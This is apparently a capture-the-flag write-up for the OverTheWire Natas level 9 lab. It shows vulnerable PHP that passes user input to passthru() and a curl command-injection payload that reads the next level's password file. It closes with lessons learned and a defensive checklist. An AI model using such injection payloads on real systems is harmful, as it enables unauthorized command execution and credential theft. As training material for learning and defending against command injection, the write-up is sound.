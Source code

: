 **2) Fetch the source to confirm the sink**

```bash
curl -u natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t http://natas9.natas.labs.overthewire.org/index-source.html
```

Source (extracted and cleaned) shows the relevant PHP:

```
<? 
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Observation: 
The application directly feeds user input 
into a shell command with no escaping. 
That is the injection point.

**3) Exploit command injection to read the next password**

I crafted a needle that closes the grep command 
and appends a shell command that cats the password file. 
Example I used:

```bash
curl -u natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t -d "needle=aa; cat /etc/natas_webpass/natas10 # " http://natas9.natas.labs.overthewire.org/
```

Server response (relevant part) shows the command output inside the page.
Whit this I got the password for natas10 and cloud move on to the next level. 


### Lessons learned (concise)

- Never pass raw user input into shell commands. Use escapeshellarg/escapeshellcmd, or better yet avoid shelling out with user data.  
- Command injection lets an attacker run arbitrary commands with the privileges of the web process. It is high severity and trivially exploitable when present.  
- In CTFs and real apps, look for common sinks: `system`, `exec`, `passthru`, `shell_exec`, backticks, or any code that builds a shell string.

### Quick defensive checklist for admins

- Do not interpolate user input into shell commands. Use safe APIs or properly escape/validate input.  
- Run the web process with minimal privileges and restrict filesystem access with file permissions.  
- Use application-level allowlists for operations that need external utilities.  
- Monitor logs for unusual shell invocation patterns and unexpected long or chained arguments.
